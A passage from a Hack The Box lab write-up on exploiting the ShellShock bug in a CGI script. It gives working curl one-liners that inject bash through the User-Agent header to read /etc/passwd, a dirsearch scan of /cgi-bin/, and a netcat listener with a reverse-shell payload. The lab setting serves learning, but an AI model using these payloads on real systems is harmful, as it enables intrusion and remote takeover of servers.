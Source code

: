 
Our box is nothing but a webserver, as far as we can tell. We can use `curl` to send custom HTTP requests, as soon as we find out just where they should go.


Some more searching lead me to [this GitHub page by opsxcq](https://github.com/opsxcq/exploit-CVE-2014-6271) which outlined a beautiful one-line command to read the `/etc/passwd` file of a system vulnerable to ShellShock.

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://localhost:8080/cgi-bin/vulnerable
```

Where could our `/vulnerable` file be?

In order to use ShellShock, we need to aim our request at a shell script. Shell scripts often carry the `.sh` extension, and are used to run commands directly in the system shell.
The `/cat/passwd` example used a `/cgi-bin/` directory, which we have already discovered exists on our box as well. We can point dirsearch at our box's `/cgi-bin/` directory and tell it to look for files with the `sh` extension.


* `dirsearch -u 'http://10.10.10.56/cgi-bin/' -e sh --plain-text-report=dirsearch_shellsearch`


<br>
![found_user_sh](https://i.imgur.com/2EKBk6M.png)
<br>


*Hello there...*


We can alter opsxcq's one liner to include the correct HTTP location and give it a test run.

* `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" 'http://10.10.10.56/cgi-bin/user.sh'`


<br>
![testoneliner](https://i.imgur.com/VP89w91.png)
<br>


We've done it, command injection. <br>
Time to drop in a revere shell command.

First, start your listener.

* `nc -lnvp PORTNUM`

<br>
Then, bundle a reverse shell command into the ShellShock one liner, and run it in another terminal.

`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/local.machine.HTB.ip/PORTNUM 0>&1'" \http://10.10.10.56/cgi-bin/user.sh`


<br>
![call_me_shelly](https://i.imgur.com/h9pFcs0.png)
<br>
